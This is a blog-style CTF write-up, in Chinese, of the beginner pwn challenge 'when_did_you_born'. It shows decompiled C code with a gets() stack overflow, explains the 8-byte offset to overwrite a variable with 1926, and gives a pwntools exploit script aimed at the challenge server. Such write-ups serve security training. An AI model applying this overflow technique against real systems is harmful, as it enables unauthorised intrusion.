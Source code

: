 ```yaml
---
title: 攻防世界刷题——新手练习
date: 2019-03-20 16:15:35
tags: pwn
---
```


# 新手练习 #

## when_did_you_born ##

gets(&v4)处存在栈溢出，覆盖掉v5，为1926(0x786)即可。

v4 = rsp+0x0; v5 = rsp + 0x8; 所以偏移为0x8

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 result; // rax
  char v4; // [rsp+0h] [rbp-20h]
  unsigned int v5; // [rsp+8h] [rbp-18h]
  ...
  puts("What's Your Birth?");
  __isoc99_scanf("%d", &v5);
  ...
  else
  {
    puts("What's Your Name?");
    gets(&v4);
    printf("You Are Born In %d\n", v5);
    if ( v5 == 1926 )
    {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
	...
}
```

exp如下：

```python
from pwn import *
context.log_level = "debug"
# p = process("./when_did_you_born")
p = remote("111.198.29.45", 31452)
p.recvuntil("What's Your Birth?\n")
p.sendline("123")
p.recvuntil("What's Your Name?\n")
payload = "a" * 8 + "\x86\x07"
p.send(payload)

p.interactive()
```
